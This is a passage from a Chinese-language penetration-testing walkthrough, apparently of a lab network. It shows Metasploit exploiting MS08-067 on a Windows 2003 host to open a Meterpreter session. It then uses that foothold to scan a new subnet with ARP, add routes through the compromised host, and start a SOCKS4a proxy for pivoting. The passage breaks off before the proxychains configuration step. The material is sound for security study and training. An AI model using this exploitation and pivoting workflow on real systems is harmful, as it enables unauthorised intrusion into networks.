 [*] 7.7.7.20:445 - We could not detect the language pack, defaulting to English
[*] 7.7.7.20:445 - Selected Target: Windows 2003 SP2 English (NX)
[*] 7.7.7.20:445 - Attempting to trigger the vulnerability...
[*] Sending stage (957999 bytes) to 7.7.7.20[*] Meterpreter session 2 opened (172.16.0.20-172.16.0.11:0 -> 7.7.7.20:4444) 
meterpreter >
</pre>
<p nodeIndex="114"><span nodeIndex="261">成功溢出getshell后查看JC(7.7.7.20)网卡信息:</span></p>
<pre class="brush:bash;toolbar:false" nodeIndex="115">
meterpreter > ipconfigInterface  1============Name         : MS TCP Loopback interfaceHardware MAC : 00:00:00:00:00:00MTU          : 1520IPv4 Address : 127.0.0.1Interface 65539============Name         : Intel(R) PRO/1000 MT Desktop AdapterHardware MAC : 08:00:27:29:cd:cbMTU          : 1500IPv4 Address : 8.8.8.3IPv4 Netmask : 255.255.255.0Interface 65540============Name         : Intel(R) PRO/1000 MT Desktop Adapter #2Hardware MAC : 08:00:27:e3:47:43MTU          : 1500IPv4 Address : 7.7.7.20IPv4 Netmask : 255.255.255.0meterpreter >
</pre>
<p nodeIndex="116"><span nodeIndex="262">发现又出现一个8.8.8.x的网段,于是将这个网段添加路由,以便msf中的模块可以访问到8.8.8.x网段.</span>   <br nodeIndex="263"></p>

<p nodeIndex="118"><strong nodeIndex="266"><span nodeIndex="267">0x03 Step3</span></strong></p>

<hr nodeIndex="268"><p nodeIndex="120"><span nodeIndex="269">先直接用新的meterpreter shell看看8.8.8.x这个网段有什么机器</span></p>
<pre class="brush:bash;toolbar:false" nodeIndex="121">
meterpreter > run post/windows/gather/arp_scanner RHOSTS=8.8.8.0/24[*] Running module against SRV03[*] ARP Scanning 8.8.8.0/24[*]   IP: 8.8.8.3 MAC 08:00:27:29:cd:cb (CADMUS COMPUTER SYSTEMS)[*]   IP: 8.8.8.1 MAC 0a:00:27:00:00:03 (UNKNOWN)[*]   IP: 8.8.8.9 MAC 08:00:27:56:f1:7c (CADMUS COMPUTER SYSTEMS)[*]    IP: 8.8.8.13 MAC 08:00:27:13:a3:b1 (CADMUS COMPUTER SYSTEMS)
</pre>
<p nodeIndex="122"><span nodeIndex="270">为了让msf中所有模块都能访问到8.8.8.x网段,在新的meterpreter会话中添加路由:</span></p>
<pre class="brush:bash;toolbar:false" nodeIndex="123">
meterpreter > run autoroute -s 8.8.8.0/24[*] Adding a route to 8.8.8.0/255.255.255.0...[+] Added route to 8.8.8.0/255.255.255.0 via 7.7.7.20[*] Use the -p option to list all active routes
</pre>
<p nodeIndex="124"><span nodeIndex="271">为了让Attacker的除了msf模块以外的其他应用程序能访问到8.8.8.x网段,再使用msf的开启sock4代理的模块开启另外一个端口 作为8.8.8.x网段的入口:</span></p>
<pre class="brush:bash;toolbar:false" nodeIndex="125">
msf exploit(ms08_067_netapi) > use auxiliary/server/socks4a 
msf auxiliary(socks4a) > show options 
Module options (auxiliary/server/socks4a):
   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  172.16.0.20      yes       The address to listen on
   SRVPORT  1080             yes       The port to listen on.
Auxiliary action:
   Name   Description
   ----   -----------
   Proxy  
msf auxiliary(socks4a) > set SRVPORT 1081SRVPORT => 1081msf auxiliary(socks4a) > run
[*] Auxiliary module execution completed
[*] Starting the socks4a proxy server
msf auxiliary(socks4a) >
</pre>
<p nodeIndex="126"><span nodeIndex="272">也即现在Attacker本地的1080端口的代理可以访问到7.7.7.x网段,1081端口的代理可以访问到8.8.8.x网段,然后将新开的端口 添加到proxychains的配置文件中:</span></p>
